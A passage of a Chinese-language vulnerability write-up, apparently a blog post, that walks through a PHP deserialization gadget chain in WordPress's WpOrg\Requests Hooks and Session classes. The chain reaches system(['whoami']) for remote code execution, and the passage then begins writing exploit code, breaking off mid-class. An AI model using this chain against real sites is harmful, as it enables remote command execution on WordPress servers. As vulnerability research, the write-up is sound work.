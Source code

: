 第二次调用 dispatch 方法，通过回调，由于 dispatch 方法只使用了两个参数，因此回调中的后三个参数不会使用，即$data、$type 和$option

```plain
dispatch(&$url, &$headers)
```

此时的$this 对应的是新 Hooks 实例，$hook 参数对应的是$url，而$this->hooks 数组中存在以$url 为键的值，是一个数组，里面第一个元素为 system 字符串

而$parameters 对应的是$header，是一个数组，里面存放 whoami 字符串，从而构成回调方法：system(\["whoami"\])

[![](assets/1707953698-20bd34eac6800bbb23e8ca4db42a9da7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240208123133-f068d512-c63a-1.png)

最后成功 RCE

## 尝试编写 EXP

根据实现的整体流程，尝试动手编写 EXP

```plain
<?php
namespace WpOrg\Requests {
    class Session {
        private $url;
        private $headers;
        private $options;

        public function __construct($url, $headers, $options)
        {
            $this->url = $url;
            $this->headers = $headers;
            $this->options = $options;
        }
    }

    class Hooks
    {
        public $hooks;

        public function __construct($hooks)
        {
            $this->hooks = $hooks;
        }
    }
}

namespace {

    use WpOrg\Requests\Hooks;
```